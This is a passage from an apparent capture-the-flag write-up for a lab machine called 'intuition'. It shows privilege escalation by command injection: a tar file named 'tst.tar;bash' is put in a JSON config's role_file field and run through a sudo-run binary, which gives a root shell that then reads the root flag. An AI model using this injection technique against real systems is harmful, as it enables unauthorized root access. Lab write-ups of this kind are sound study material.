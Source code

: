 ```c
    __stack_chk_fail();
  }
  return;
}
```


after code examination i reached that the json file should be like this:
```json
{
  "run": {
    "action": "install",
    "role_file":"<path/to/tar file>"
  },
  "auth_code": "UHI75GHINKOP"
}
```
and the command injection will be the name of the role file

We will create the file using `tar -cvf tar_file_name file_to_be_compressed`.
```bash
lopez@intuition:~$ tar -cvf tst.tar\;bash tst.json 
tst.json
```
and the content of tst.json is
```json
{
  "run": {
    "action": "install",
    "role_file":"tst.tar\;bash"
  },
  "auth_code": "UHI75GHINKOP"
}
```
Then run `sudo /opt/runner2/runner2 ./tst.json` and you will get shell as root
```bash
root@intuition:/home/lopez# whoami
root
root@intuition:/home/lopez# cat /root/root.txt
*******************************d
```
Congratzz